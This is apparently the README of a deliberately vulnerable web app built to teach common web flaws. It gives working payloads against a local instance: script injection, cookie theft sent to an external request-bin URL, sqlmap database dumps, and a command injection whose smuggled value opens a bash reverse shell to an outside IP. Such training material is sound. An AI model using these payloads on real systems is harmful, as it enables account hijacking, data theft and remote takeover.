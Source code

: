 # Vulnerable Filehoster

A web app to showcase some typical web application flaws.

**WARNING**: This software is for educational purposes only!

## Included issues

### Guessable IDs

Vulnerable in this example are:
* UserIds
  * Easily discover other users
* UploadIds
  * Download the stuff other people uploaded
  * Delete stuff you do not own

### HTML Injection
* eMail on registration form
  ```
  <h1 style="color: pink">some@user.com</h1>
  ```
* uploaded file name
  ```
  curl -X POST http://localhost:3000/api/upload -F "file=@myself-2012.jpg;filename=%3Ch1%3EA%20weird%20filename%3C%2Fh2%3E" --cookie "loggedInUserId=2"
  ```
* Script injection via `img` tag and `onerror` attribute
  ```
  # Bad payload:
  <img src="missing.jpg" onerror="alert('Some JavaScript just got executed...')" />

  # URLEncode and use payload as filename-parameter when uploading a file:
  curl -X POST http://localhost:3000/api/upload -F "file=@myself-2012.jpg;filename=%3Cimg%20src%3D%22missing.jpg%22%20onerror%3D%22alert%28%27Some%20JavaScript%20just%20got%20executed...%27%29%22%20%2F%3E" --cookie "loggedInUserId=12"
  ```
  
* Cookie extraction via ScriptInjection and https://requestbin.com
  ```
  # Bad Payload:
  <img src="missing.jpg" onerror="fetch('https://endlj4fkdulat.x.pipedream.net?cookies=' + document.cookie)" />

  # Reusing the HTML Injection in the uploaded file name:
  curl -X POST http://localhost:3000/api/upload -F "file=@myself-2012.jpg;filename=%3Cimg%20src%3D%22missing.jpg%22%20onerror%3D%22fetch%28%27https%3A%2F%2Fendlj4fkdulat.x.pipedream.net%3Fcookies%3D%27%20%2B%20document.cookie%29%22%20%2F%3E" --cookie "loggedInUserId=12"
  ```

### SQL Injection

The login form allows funny SQL commands. In order to execute an SQL Injection attack, you need to know a Username and Password. But since you can register accounts yourself, this is not a big issue. ;)

```
sqlmap --flush-session -u http://localhost:3000/login.html --forms --dump-all --ignore-code 401
```

When asked, provide the following post data: `email=<YOUR-EMAIL>*&password=<YOUR-PASSWORD>`
*Important: The aterisk (*) after `<YOUR-EMAIL>` is a special character giving sqlmap a hint, what is injectable!

Alternatively hit the API login endpoint directly:

```
sqlmap --flush-session -u http://localhost:3000/api/login --data "email=<YOUR-EMAIL>*&password=<YOUR-PASSWORD>" --dump-all --ignore-code 401
```

### Password Storage

* Passwords are stored as md5 hashes, see https://md5.gromweb.com
* And for the right way: [OWASP Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)

### Session Tampering / Hijacking

* Upload for someone else?
    * curl --cookie loggedInUserId=4711
* Become an admin?
    * /api/admin/cleanup


### Remote Shell

* Good Request:
  ```
  # directory=/home/
  curl http://localhost:3000/list-directory?directory=%2Fhome%2F
  ```
* Bad Request:
  ```
  # directory=/ ; bash -i >& /dev/tcp/178.63.25.243/7171 0>&1
  curl http://localhost:3000/list-directory?directory=%2F%20%3B%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F178.63.25.243%2F7171%200%3E%261
  ```
* See https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
